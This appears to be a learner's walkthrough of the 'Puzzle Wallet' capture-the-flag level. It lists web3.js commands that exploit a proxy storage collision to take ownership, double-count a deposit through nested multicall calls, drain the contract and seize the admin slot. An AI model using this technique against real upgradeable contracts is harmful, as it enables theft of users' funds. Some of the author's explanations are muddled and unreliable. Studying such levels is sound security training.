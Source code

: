 ## Puzzle Wallet

1. I solved this on second day. This is tricky but actually not that hard, you should watch D-squared video for this challenge, if you already understand how proxy storage works and calls...

2. The things to keep in mind is the PuzzelProxy and PuzzelWallet share the same storage, owner and pendingAdmin share same storage as well as admin and maxBalance share same storage.

3. To be pendingAdmin or owner it is fairly easy just call the proposeNewAdmin(), I have already explained how to do that using remix in past so calling them using contractABI is good to understand javascript and i can copy paste them.

```javascript
functionSig = {
  name: "proposeNewAdmin",
  type: "function",
  inputs: [{ type: "address", name: "_newAdmin" }],
};
```

`params = [player]`

`data = web3.eth.abi.encodeFunctionCall(functionSig, params)`

Calling proposeNewAdmin()
`await web3.eth.sendTransaction({from: player, to: instance, data})`

> Here, we call the proposeNewAdmin() and functionSig is used to create the 4byte signature (i.e. passed as data) and address is passed in params for better understanding of what is happening.

4. We add the player to whitelist and since are already owner.

`await contract.addToWhitelist(player)`

5. We get the 4byte signature of deposit by below line
   `depositData = await contract.methods["deposit()"].request().then(v=> v.data)`
6. We get the data to be passed for multicallData()

multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)

7. We call the multicall() using below code, which is called twice because after depositCalled is reversed to true in if {} block then it call be called again.. i think is the code for another vulnerability which was not discussed in video?

`await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})`

`await getBalance(instance)`

8. We call execute() that lets us take the maxBalance out `await contract.execute(player, toWei('0.002'), 0x0)`

9. The final part in setting the admin which is also maxBalance state variable `await contract.setMaxBalance(player)`

10. success
